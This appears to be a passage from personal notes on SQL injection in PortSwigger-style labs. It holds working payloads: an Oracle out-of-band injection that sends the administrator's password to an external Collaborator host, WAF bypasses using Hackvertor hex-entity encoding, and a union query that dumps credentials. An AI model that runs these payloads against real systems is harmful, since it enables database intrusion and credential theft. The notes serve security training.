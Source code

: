 When you see the collaborator you see that is interpreted.

Now the same but with the password:

```oracle
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(select password from users where username='administrator')||'.kwk6v6jjb8t6l3nzymqv9a90jrpid81x.oastify.com/"> %25remote%3b]>'),'/l') FROM dual -- -
```

# SQL injection with filter bypass via XML encoding

You have hackvertor extension in Burpsuite, that allow you to convert the selected code to differents format, this is very useful to bypass WAF.

For example, in this lab, we are using a sql injection thorough xml, but there is a WAF, to avoid this waf, you can use the extension, go to -> extensions > hackvertor > encode > hex_entities

And automatically add hex_entities tag. 
In this case we discover the sql injection without a quot because the query don't use quotes and we don't have to close nothing.
```xml
<@hex_entities>
3 union select 1
</@hex_entities>
```

```xml
<@hex_entities>
3 union select username||':'||password from users
</@hex_entities>
```

---

# Bypass filters

Sometimes you put clear text in your query and some protection block your request. If you want to "hidde" the text you can use hexadecimal

```bash
echo -n "table_name" | xxd -p
```

In the query:
```sql
...' union select NULL,group_concat(table_name) from information_schema.tables where table_schema=0x7461626c655f6e616d65-- -
```

You can put colon `:` in hexadecimal -> 0x3a

---

# Tips

- Sometimes work if delete the original value of the injection, ex: 123456' or 1=1-- - -> 'or 1=1-- -

---

# Cheatsheets
- https://portswigger.net/web-security/sql-injection/cheat-sheet

